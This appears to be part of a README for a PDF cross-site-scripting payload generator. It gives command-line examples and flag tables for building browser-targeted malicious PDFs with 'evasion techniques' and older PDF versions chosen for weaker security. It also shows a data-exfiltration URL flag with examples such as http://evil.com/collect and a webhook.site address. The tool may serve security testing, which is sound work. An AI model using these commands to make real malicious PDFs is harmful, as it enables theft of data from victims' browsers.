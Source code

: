 ### Advanced Options

```bash
# Limit number of payloads
python3 pdf_xss_generator.py -b chrome --count 3 -u http://test.com

# Use older PDF version (weaker security)
python3 pdf_xss_generator.py -b firefox --pdf-version 1.3 -u http://test.com

# Custom output directory
python3 pdf_xss_generator.py -b safari -o CustomOutput -u http://test.com

# Single file mode (one payload per page)
python3 pdf_xss_generator.py -b adobe --single-file -u http://test.com

# Generate files for all advanced Chrome evasion techniques
python3 pdf_xss_generator.py -b chrome -u http://webhook.site/xyz --count 20
```

## 🏁 Command Line Flags

### PDF Generator (pdf_xss_generator.py)
| Flag | Description | Example |
|------|-------------|---------|
| `-h, --help` | Show help message | `python3 pdf_xss_generator.py --help` |
| `-b, --browser` | Target browser (required) | `-b chrome` |
| `-u, --url` | Target URL for data exfiltration | `-u http://evil.com/collect` |
| `-o, --output-dir` | Output directory | `-o Files` |
| `--single-file` | One payload per page mode | `--single-file` |
| `--count` | Limit number of payloads | `--count 5` |
| `--pdf-version` | PDF version (1.0-2.0) | `--pdf-version 1.3` |
| `--list-browsers` | List available browsers | `--list-browsers` |

### Payload Tester (payload_tester.py)
| Flag | Description | Example |
|------|-------------|---------|
| `-b, --browser` | Target browser to test | `-b chrome` |
| `--report` | Generate detailed JSON report | `--report` |

### Results Analyzer (results_analyzer.py)
| Flag | Description | Example |
|------|-------------|---------|
| `-r, --report` | Specific report file to analyze | `-r test_report_xyz.json` |
| `--categories` | Show category analysis | `--categories` |
| `--techniques` | Show evasion technique analysis | `--techniques` |
| `--recommendations` | Show improvement recommendations | `--recommendations` |
